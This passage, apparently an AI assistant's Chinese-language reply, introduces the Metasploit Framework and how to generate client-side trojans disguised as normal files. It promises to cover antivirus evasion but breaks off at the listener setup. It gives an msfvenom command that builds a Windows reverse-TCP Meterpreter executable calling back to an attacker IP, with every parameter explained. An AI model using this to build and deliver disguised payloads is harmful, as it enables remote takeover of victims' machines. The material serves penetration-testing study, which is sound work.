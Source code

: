 好的，我会用网络安全工程师的视角，为你系统、详细地介绍 **Metasploit 框架**、**客户端木马生成** 的流程，以及 **免杀（AV Evasion）** 的原理与常见思路——所有内容仅用于学习、测试与安全防护研究，不涉及实际攻击实施。

---

## 一、Metasploit 框架概述

**Metasploit Framework (MSF)** 是一个开源的渗透测试与漏洞利用平台，由 Rapid7 维护，主要功能包括：

* **漏洞利用（Exploitation）**：利用已知漏洞获取目标系统的访问权限。
* **有效载荷（Payload）**：在漏洞被利用后，在目标机执行的代码（如反弹 shell、Meterpreter）。
* **辅助模块（Auxiliary Modules）**：扫描、嗅探、暴力破解等辅助测试功能。
* **后渗透模块（Post-Exploitation）**：提权、横向移动、信息收集等。
* **编码器（Encoders）**：对 Payload 进行编码，尝试绕过杀软或 IDS/IPS 检测。

**架构组成：**

1. **Modules**（模块）

   * exploit（漏洞利用模块）
   * payload（载荷模块）
   * auxiliary（辅助模块）
   * post（后渗透模块）
   * encoder（编码器模块）
2. **Database**（存储目标、漏洞信息）
3. **Console**（msfconsole CLI）
4. **MSFvenom**（生成 payload 的工具）

---

## 二、客户端木马生成原理

所谓“客户端木马”，在 Metasploit 里其实就是 **客户端侧 payload**，通常伪装成正常文件（EXE、APK、Office 宏等），诱导目标执行。

常用工具：

* **msfvenom**（旧的 msfpayload + msfencode 合并）
* **平台支持**：Windows、Linux、Android、macOS 等

**基本生成流程（Windows 示例）**

```bash
# 生成一个反向TCP Meterpreter木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
```

参数解释：

* `-p`：指定 Payload 类型

  * `windows/meterpreter/reverse_tcp`：反向连接 Meterpreter
* `LHOST`：本机监听地址（攻击机 IP）
* `LPORT`：监听端口
* `-f`：文件格式（exe、elf、apk、raw 等）
* `-o`：输出文件路径

**监听端设置**
